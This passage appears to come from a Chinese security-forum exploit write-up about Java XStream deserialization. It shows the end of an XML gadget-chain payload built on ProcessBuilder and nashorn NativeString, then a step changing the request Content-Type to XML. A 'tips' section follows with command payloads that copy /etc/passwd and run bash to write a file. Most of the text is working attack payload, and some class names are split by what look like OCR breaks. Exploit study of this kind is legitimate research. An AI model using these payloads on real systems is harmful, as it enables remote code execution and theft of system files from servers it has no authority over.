 ```php
 &lt;/method&gt;
 &lt;name&gt;foo&lt;/name&gt;
 &lt;/filter&gt;
 &lt;next class=&quot;string&quot;&gt;foo&lt;/next&gt;
 &lt;/serviceIterator&gt;
 &lt;lock/&gt;
 &lt;/cipher&gt;
 &lt;input class=&quot;java.lang.ProcessBuilder$NullInputStream&quot;/&gt;
 &lt;ibuffer&gt;&lt;/ibuffer&gt;
 &lt;done&gt;false&lt;/done&gt;
 &lt;ostart&gt;0&lt;/ostart&gt;
 &lt;ofinish&gt;0&lt;/ofinish&gt;
 &lt;closed&gt;false&lt;/closed&gt;
 &lt;/is&gt;
 &lt;consumed&gt;false&lt;/consumed&gt;
 &lt;/dataSource&gt;
 &lt;transferFlavors/&gt;
 &lt;/dataHandler&gt;
 &lt;dataLen&gt;0&lt;/dataLen&gt;
 &lt;/value&gt;
 &lt;/jdk.nashorn.internal.o bjects.NativeString&gt;
 &lt;jdk.nashorn.internal.o bjects.NativeString reference=&quot;../jdk.nashorn.internal.o bjects.NativeString&quot;/&gt;
 &lt;/entry&gt;
 &lt;entry&gt;
 &lt;jdk.nashorn.internal.o bjects.NativeString reference=&quot;../../entry/jdk.nashorn.internal.o bjects.NativeString&quot;/&gt;
 &lt;jdk.nashorn.internal.o bjects.NativeString reference=&quot;../../entry/jdk.nashorn.internal.o bjects.NativeString&quot;/&gt;
 &lt;/entry&gt;
&lt;/map&gt;
```

![image-20210711200351962](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a1fee7d7d2fda98030ab7f9adf321206848ea942.png)

##### 这里包头content-type修改为application-x ml

![image-20210711200608677](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2fd1afa84ec500329a7f607158c62aca16ce718d.png)

![image-20210711200639609](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5dd4a1dcb81ea8258224f61a75257679117ec88c.png)

![image-20210711200713281](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-219349a156f128bba7a4db074dfd717bcedfb4ac.png)

##### 小技巧

```php
读文件
&lt;command&gt; &lt;string&gt;cp&lt;/string&gt; &lt;string&gt;/etc/passwd&lt;/string&gt; &lt;string&gt;/tmp/passwd&lt;/string&gt; &lt;/command&gt;
写文件
&lt;command&gt;
&lt;string&gt;bash&lt;/string&gt;
&lt;string&gt;-c&lt;/string&gt;
&lt;string&gt;echo dayu hello &gt; /tmp/dayu.txt&lt;/string&gt;
&lt;/command&gt;
```
